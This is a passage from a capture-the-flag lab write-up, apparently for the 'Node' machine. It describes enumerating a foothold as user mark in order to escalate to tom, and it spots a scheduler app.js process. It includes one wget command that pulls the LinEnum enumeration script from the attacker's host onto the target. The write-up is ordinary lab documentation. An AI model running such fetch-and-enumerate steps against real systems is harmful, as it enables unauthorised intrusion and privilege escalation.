 ![](Linux/Linux-Medium/Node/Screenshots/ssh.png)

we cannot access the user flag with mark its from tom so we have to enumerate the target to get tom 

so let use LinEmum to check for privsecs

```sh
wget http://10.10.14.15:8000/LinEnum.sh
```

![](/Linux/Linux-Medium/Node/Screenshots/LinEnum.png)

Upon further investigation, we discovered the presence of another process of app.js located at /var/scheduler/app.js.

